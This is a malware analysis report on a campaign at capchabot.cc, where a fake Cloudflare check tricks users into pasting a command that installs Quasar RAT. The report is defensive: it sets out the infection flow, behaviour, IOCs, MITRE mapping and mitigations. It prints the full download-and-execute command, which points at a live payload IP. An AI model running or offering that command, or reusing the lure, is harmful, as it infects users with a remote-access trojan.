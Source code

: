 # Malware Analysis Report: (capchabot.cc) Campaign (Quasar RAT)

## Report Date

2025-08-06

---

## Executive Summary

A new malware distribution campaign masquerading as a **Cloudflare verification page** has been discovered at `capchabot.cc` (found by Enderman, https://youtube.com/@Endermanch). The site tricks users into pasting malicious code into the **Windows Run dialog**, which downloads and executes a **Quasar RAT** payload.

Behavioral analysis and sandbox detonation confirm the payload installs a persistent, memory-injecting RAT with command-and-control (C2) communication. The campaign uses **stealthy execution techniques**, including `conhost.exe --headless`, to avoid user detection.

---

## Key Findings

| Category              | Details                                                            |
| --------------------- | ------------------------------------------------------------------ |
| **Threat Family**     | Quasar RAT (Remote Access Trojan)                                  |
| **File**              | `a.exe`                                                            |
| **SHA256**            | `e0a69439563c8534c2ef842d4ffcb16696f286d16585186de20351892f9917f1` |
| **Delivery Method**   | Social engineering via clipboard + Run dialog                      |
| **Domain Used**       | `capchabot.cc`                                                     |
| **Payload Source IP** | `http://213.209.150.188:8112/a.exe`                                |
| **C2 Connection**     | `213.209.150.188:2106` (Netherlands)                               |
| **Persistence**       | Registry Run key                                                   |
| **Execution Method**  | `conhost.exe --headless`                                           |
| **Malware Score**     | 10/10 (Triage)                                                     |

---

## Infection Flow

User visits `capchabot.cc` ➝ Fake Cloudflare prompt ➝
Clipboard auto-copy of command ➝ Run dialog ➝
Payload (`a.exe`) downloaded to `%TEMP%` ➝
Executed with `conhost.exe --headless` ➝
RAT installs and persists via registry ➝
C2 contact initiated

---

## Malicious Command Used

`
conhost.exe --headless cmd /c cd /D %userprofile% && curl -s -o a.exe http://213.209.150.188:8112/a.exe && conhost.exe --headless a.exe && REM By pressing the enter button you confirm you are not a bot
`

### Breakdown:

| Step                            | Action Description                         |
| ------------------------------- | ------------------------------------------ |
| `conhost.exe --headless cmd /c` | Launches a hidden shell                    |
| `cd /D %userprofile%`           | Switches to user directory                 |
| `curl -s -o a.exe ...`          | Silently downloads `a.exe`                 |
| `conhost.exe --headless a.exe`  | Executes payload invisibly                 |
| `REM ...`                       | Social engineering line to fake legitimacy |

---

## Sample Details

| Property         | Value                                                              |
| ---------------- | ------------------------------------------------------------------ |
| File Name        | `a.exe`                                                            |
| SHA256           | `e0a69439563c8534c2ef842d4ffcb16696f286d16585186de20351892f9917f1` |
| Type             | PE32 executable                                                    |
| Size             | \~250 KB                                                           |
| Dropped Location | `%TEMP%\a.exe`                                                     |
| Notes            | Analyst relocated file to `Documents\` for sandbox upload          |

---

## Behavioral Analysis (Triage)

### Malicious Activities Observed:

* Executed EXE from `%TEMP%\a.exe`
* Created persistence via registry:

  * `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\a.exe = "C:\Users\Admin\Documents\a.exe"`
* Injected into:

  * `cmd.exe`
  * `reg.exe`
  * `AppLaunch.exe`
* Abused APIs:

  * `SetThreadContext`
  * `AdjustPrivilegeToken`
  * `WriteProcessMemory`
  * `SetWindowsHookEx`
  * `AddClipboardFormatListener`

---

### Processes Observed:

* `%TEMP%\a.exe`
* `cmd.exe /c reg add ...`
* `reg.exe` (adding Run key)
* `cmd.exe /c a.exe`
* `AppLaunch.exe` (used as injection target)

---

### Network Behavior:

| Destination IP    | Country        | Port | Purpose                |
| ----------------- | -------------- | ---- | ---------------------- |
| `213.209.150.188` | Netherlands    | 8112 | Malware delivery       |
| `213.209.150.188` | Netherlands    | 2106 | Command & Control      |
| `57.128.140.217`  | United Kingdom | 443  | Geo-recon (`ipwho.is`) |

---

## MITRE ATT\&CK Mapping

| Tactic               | Technique Description      | ID        |
| -------------------- | -------------------------- | --------- |
| Persistence          | Registry Run Key           | T1547.001 |
| Execution            | Command Line Interface     | T1059     |
| Defense Evasion      | Modify Registry            | T1112     |
| Discovery            | System Language Discovery  | T1614.001 |
| Privilege Escalation | Adjust Token Privileges    | T1134.001 |
| C2 Communication     | Application Layer Protocol | T1071     |

---

## Indicators of Compromise (IOCs)

**Hashes:**

* SHA256: `e0a69439563c8534c2ef842d4ffcb16696f286d16585186de20351892f9917f1`
* Filename: `a.exe`

**Domain:**

* `capchabot.cc`

**IP Addresses:**

* `213.209.150.188` (Payload + C2)
* `57.128.140.217` (Recon)

**Registry Key:**

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\a.exe`

---

## Recommended Mitigation Steps

* Block all traffic to IP `213.209.150.188`
* Blacklist domain `capchabot.cc`
* Hunt for `a.exe` in `%TEMP%` or autorun keys in registry (although it might remove itself, not confirmed)
* Monitor for abuse of `conhost.exe --headless`
* Alert if clipboard instructions or Run dialog usage is observed from browsers
* Educate users: **Never paste unknown text into Run**

---


## Attribution Notes

This campaign is linked to the **Quasar Remote Access Trojan** — an open-source RAT used in both criminal and nation-state operations. It provides full remote access, persistence, credential theft, and keylogging capabilities. The campaign seen at `capchabot.cc` weaponizes social engineering and stealthy execution in a highly deceptive manner.

